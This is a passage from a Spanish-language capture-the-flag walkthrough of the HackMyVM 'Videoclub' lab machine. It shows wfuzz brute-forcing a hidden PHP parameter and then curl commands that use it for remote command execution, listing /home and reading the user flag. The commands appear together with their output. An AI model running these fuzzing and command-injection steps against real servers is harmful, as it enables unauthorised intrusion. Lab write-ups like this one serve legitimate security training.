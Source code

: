 Al acceder a la ruta `http://192.168.0.16:3377/c0ntr0l.php` desde el navegador no hay nada, pero podríamos mirar si podemos ejecutar comandos o leer archivos locales, ya que tenemos un archivo .php.

Pero existe un problema, necesitamos averiguar el parámetro para poder probar estas vulnerabilidades, asique vamos a intentar fuzzear para conseguir el parámetro que buscamos.

Lanzo gobuster usando el diccionario rockyou.txt.

`wfuzz -c -u 'http://192.168.0.16:3377/c0ntr0l.php?FUZZ=id' -w /usr/share/wordlists/rockyou.txt --hl=0 --hc=0 -t 1000`

Pero tarda demasiado y mi paciencia es nula, asique mientras esperaba se me ocurrió meter el diccionario de usuarios que habíamos encontrado en el servidor web.

`wfuzz -c -u 'http://192.168.0.16:3377/c0ntr0l.php?FUZZ=id' -w /home/elc4br4/user.txt --hl=0 --hc=0 -t 1000`

![](/assets/images/HMV/Videoclub-HackMyVM/wfuzz.webp)

Y ya tenemos el parámetro `f1ynn`, asique vamos a ver si es vulnerable a RCE el servidor web.

# Explotación 

```bash
❯ curl 'http://192.168.0.16:3377/c0ntr0l.php?f1ynn=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Y es vulnerable a RCE, podemos ejecutar comandos en el servidor.

Puedo intentar listar usuarios del sistema

```bash
❯ curl 'http://192.168.0.16:3377/c0ntr0l.php?f1ynn=ls+/home'
librarian
secret_film
```

Incluso podría intentar leer la flag user.

```bash
❯ curl 'http://192.168.0.16:3377/c0ntr0l.php?f1ynn=cat+/home/librarian/user.txt'
              .-"'"-.
             |       |  
           (`-._____.-')
        ..  `-._____.-'  ..
      .', :./'.== ==.`\.: ,`.
     : (  :   ___ ___   :  ) ;	a*******f1a**
     '._.:    |0| |0|    :._.'
        /     `-'_`-'     \
      _.|       / \       |._
    .'.-|      (   )      |-.`.
   //'  |  .-"`"`-'"`"-.  |  `\\ 
  ||    |  `~":-...-:"~`  |    ||
  ||     \.    `---'    ./     ||
  ||       '-._     _.-'       ||
 /  \       _/ `~:~` \_       /  \
```